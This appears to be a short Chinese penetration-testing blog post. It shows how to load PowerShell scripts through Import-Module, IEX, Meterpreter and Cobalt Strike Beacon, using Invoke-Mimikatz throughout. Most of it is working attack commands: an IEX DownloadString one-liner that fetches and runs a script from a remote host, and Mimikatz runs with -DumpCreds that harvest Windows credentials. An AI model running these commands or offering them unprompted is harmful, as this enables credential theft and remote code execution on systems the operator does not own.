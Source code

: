 ```yaml
---
title: "加载 PowerShell 脚本"
date: 2019-07-24T00:00:00+08:00
draft: false
tags: ['powershell','metasploit','cobalt strike']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


通过 Module, IEX, Metasploit, Cobalt Strike 方式加载 PowerShell 脚本

<!--more-->

## Module

通过导入模块的方式加载 PowerShell 脚本.

```
Import-Module .\Invoke-Mimikatz.ps1
```

```
. .\Invoke-Mimikatz.ps1
```

## IEX

通过 `Invoke-Expression` 命令从网络加载 PowerShell 脚本.

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1')
```

## Metasploit

通过 Meterpreter 中的 powershell 模块加载 PowerShell 脚本.

```
load powershell
powershell_import /home/exp10it/Invoke-Mimikatz.ps1
powershell_execute Invoke-Mimikatz -DumpCreds
```

## Cobalt Strike

通过 Beacon 命令控制台加载 PowerShell 脚本.

```
powershell-import /home/exp10it/Invoke-Mimikatz.ps1
powershell-execute Invoke-Mimikatz -DumpCreds
```

## 注意

PowerShell 默认限制输出长度, 需手动更改.

```
$FormatEnumerationLimit = -1
```